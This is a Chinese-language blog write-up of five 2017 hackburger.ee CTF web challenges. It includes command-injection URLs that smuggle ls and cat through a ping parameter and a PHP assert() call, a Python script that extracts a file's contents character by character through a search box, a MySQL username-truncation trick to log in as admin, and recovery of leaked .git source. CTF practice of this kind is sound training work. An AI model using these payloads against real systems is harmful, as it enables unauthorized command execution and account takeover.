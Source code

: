 ```yaml
---
title: 2017 hackburger.ee 部分题 WriteUp
tags:
  - mysql字符截断
  - php
  - python
  - RCE
  - 命令执行
  - 源码泄露
  - WriteUp
date: 2017-07-28 16:13:54
---
```



hackburger.ee一共只有10道题，但是都非常有意思，花了些时间做出了5道，这里记录一下，后续做出来的也会更新上来
<!-- more -->

## Warmup
A ping utility, to ping stuff, you know
```
http://burger.laboratorium.ee:8000/
```
命令执行漏洞，%0a换行后就可以执行任意命令
```
http://burger.laboratorium.ee:8000/?host=127.0.0.1%0als
```
然后cat flag.php即可拿到flag
```
The flag is f1b35744925a3f5946c542a1ee64267af8b93b06
```

## File search
Here you can search files
```
http://burger.laboratorium.ee:8004/
```
fuzz中发现这题的搜索框会搜索到文件名或内容包含该字符串的文件，很多人用burp手动跑，我就用py写了个小脚本
```python
#!/usr/bin/python
#-*- coding: utf-8 -*-
#by:CodeMonster
import requests
import re

r=requests.session()
str="abcdefhijklmnopqrstuvwxyz1234567890_g"
ls=len(str)
url="http://burger.laboratorium.ee:8004/"
flag=""

def postq(s1):
    data={"query":s1}
    r1=r.post(url=url,data=data)
    return len(re.findall( r'flag.txt', r1.text))

def fun1(s):
    for i in str:
        flag=s+i
        print flag
        if postq(flag)==1:
            print flag
            flag=fun1(flag)
            break
    return flag

def fun2(s):
    for i in str:
        flag=i+s
        print flag
        if postq(flag)==1:
            print flag
            flag=fun2(flag)
            break
    return flag

print fun2(fun1(flag)[0:-1])[1:]
```
这里把g字符放到了后面，因为怕匹配出flag字符串，最后flag为
```
t_h_e__f_l_a_g__i_s__c82584c307421228a3c5c5e4dc6a3ea31859975e
```

## Number to ASCII converter
A tool to convert numbers to ASCII characters
```
http://burger.laboratorium.ee:8001/
```
题目给了源代码，很容易看出`assert($_GET['number'], "Number is zero");`这里存在`命令执行漏洞`
构造
```
http://burger.laboratorium.ee:8001/?number=eval(system("cat where/is/the/flag/i/am/looking/for/flag.php"))
```
读取flag
```
The flag is adb92727cb7edc1802eb4616d23aef3ffaa928a4
```

## That's not how you write signup
A login form and a registration form. With some problems (but not SQL injection, SQLi is boring).
```
http://burger.laboratorium.ee:8002/
```
题目给了登录和注册功能，源代码也给了，提示不是注入，又需要admin登录，就想到一个姿势，mysql字符截断漏洞,因为没有限制用户名长度，就可以注册一个用户名为`admin                         (...很多空格...)111`的用户，然后就可以登录admin账号

```
Flag is ad0f46b77ae29d84a5f2b3a9b0784853d2aee093
```

## Magic

The description left out intentionally. Flag3 is currently unavailable, enter 0 instead.
```
http://burger.laboratorium.ee:8006/
```
考察的是扫描器？？robots.txt有个flag，index.php~有个flag，.git泄露，用githack爬下来index.php里面有个flag，拼接起来就是最后的flag
```
47b9664515420d44d2c77dc593f7514ccbd17be8_392d28473a135c2491c227f373d0eed0310e13e3_0_ebb696a5abb04c8875a0afa29f6dc8d167db67e8
```